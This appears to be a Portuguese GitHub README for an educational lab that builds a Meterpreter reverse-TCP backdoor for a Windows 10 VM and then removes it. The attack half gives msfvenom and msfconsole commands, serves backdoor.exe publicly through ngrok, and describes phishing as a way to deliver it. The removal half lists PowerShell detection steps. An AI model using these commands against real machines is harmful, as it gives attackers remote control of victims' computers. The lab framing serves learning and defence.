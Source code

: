 # **Pentesting Lab: Criação e Remoção de Backdoor em uma VM Windows 10**

Este repositório contém um laboratório prático de pentesting onde mostramos como criar e remover uma **backdoor** em uma máquina virtual com **Windows 10**. O objetivo desse exercício é demonstrar uma técnica de exploração e como limpar os vestígios após um ataque, para fins educacionais e de segurança cibernética.

## **Pré-requisitos**

Antes de começar, é necessário ter as seguintes ferramentas instaladas:

- **Kali Linux** ou outro sistema Linux com **Metasploit Framework** instalado.
- **Máquina Virtual com Windows 10** (pode ser usando VirtualBox ou VMware).
- **Metasploit Framework** (msfvenom e msfconsole).
- **Python 3.x** para criar o servidor HTTP (alternativamente, pode-se usar outras opções de servidor).
- **PowerShell** ou **Prompt de Comando** no Windows 10 para a execução de comandos.

## **Passo a Passo**

### **1. Criando a Backdoor com o msfvenom**

A primeira etapa é gerar um **payload** malicioso usando a ferramenta **msfvenom** do Metasploit.

1. Abra o terminal do Kali Linux.
2. Execute o seguinte comando para gerar um payload que irá abrir uma **conexão reversa**:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SEU_IP> LPORT=<PORTA> -f exe > (nome da backdoor).exe
  - Substitua <SEU_IP> pelo seu IP local (onde você vai receber a conexão reversa).

  - Substitua <PORTA> por uma porta de sua escolha (exemplo: 4444).

### **2. Criando um Servidor HTTP para Enviar o Payload**

Agora, vamos criar um servidor HTTP simples em Python para enviar o payload gerado para a máquina vítima.

1. No Kali Linux, abra o terminal e navegue até o diretório onde o payload (`backdoor.exe`) está localizado.

2. Execute o seguinte comando para iniciar o servidor HTTP:

   ```bash
   python3 -m http.server 8000
- Isso vai disponibilizar o arquivo backdoor.exe para a vítima através do endereço http://<SEU_IP>:8000/backdoor.exe.
### **3. Configurando o Listener no Metasploit**

Agora, vamos configurar o Metasploit para ouvir a conexão reversa da máquina Windows 10.

1. Abra o terminal no Kali Linux e inicie o `msfconsole`:

   ```bash
   msfconsole
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <SEU_IP>
   set LPORT <PORTA>
   run
- Substitua <SEU_IP> e <PORTA> pelos valores correspondentes.
  
O Metasploit agora está esperando pela conexão da máquina vítima.

### **4. Enviando o Payload para a Máquina Vítima**

Uma alternativa para o servidor HTTP é o uso do **ngrok**, que cria um túnel para o seu servidor local e disponibiliza a URL pública que pode ser acessada de qualquer lugar.

#### Usando o ngrok para Enviar o Payload:

1. Se ainda não tiver o **ngrok** instalado, faça o download no [site oficial](https://ngrok.com/download) e siga as instruções para instalação.
   
2. Inicie um servidor HTTP local no Kali Linux, como já foi mencionado anteriormente:

   ```bash
   python3 -m http.server 8000
3. Abra outro terminal e inicie o ngrok para expor a porta 8000 do seu servidor local:
     ```bash
     ngrok http 8000
- O ngrok irá gerar uma URL pública, como por exemplo:
    ```bash
    http://<SEU_NGROK_URL>.ngrok.io
> **Phishing e Envio do Payload**

> Uma técnica comum de distribuição de payloads maliciosos é o **phishing**.  
> Em vez de enviar diretamente o link do servidor, o atacante pode enviar um e-mail ou mensagem falsa contendo um **link ou anexo** que, ao ser clicado, faz o download do payload malicioso.
> Essa técnica visa **enganar o usuário** e induzi-lo a **executar o arquivo malicioso**, concedendo assim acesso remoto ao atacante.

4. Na máquina virtual com Windows 10, faça o download do backdoor.exe utilizando o navegador e acesse a URL gerada pelo ngrok:
   ```text
   http://<SEU_NGROK_URL>.ngrok.io/backdoor.exe
### **5. Identificando e Removendo a Backdoor**
Após ter acesso à máquina vítima, o próximo passo é identificar o arquivo malicioso e removê-lo.

1. Abra o PowerShell ou Prompt de Comando no Windows 10.
2. Use o comando para listar os processos em execução:
   ```bash
   netstat -anob
3. Identificar o processo malicioso
Se você já sabe o nome do executável (ex: backdoor.exe), execute:
    ```bash
    Get-Process | Where-Object { $_.Name -like "*backdoor*" }
4. Finalizar o processo
    ```bash
    Stop-Process -Name "backdoor" -Force
5. Verificar e remover persistência
Alguns malwares se autoexecutam via inicialização ou tarefas agendadas.
  🔧 Inicialização:
    ```bash
    Get-CimInstance Win32_StartupCommand | Select-Object Name, Command
 


### **Notas Importantes:**
1. **Substitua `<SEU_IP>` e `<PORTA>`** nos comandos pelos valores corretos, como seu **IP local** e a porta que você está usando.
2. **Certifique-se de que todo o trabalho é feito em ambientes controlados** (como uma máquina virtual), e que seu uso seja ético e legal.

### Como Usar:
- Copie e cole este conteúdo no seu repositório do GitHub na seção de README.
- **Faça alterações personalizadas** conforme necessário, principalmente se houver algo específico no seu processo que precise de ajustes.


  

    
    





   
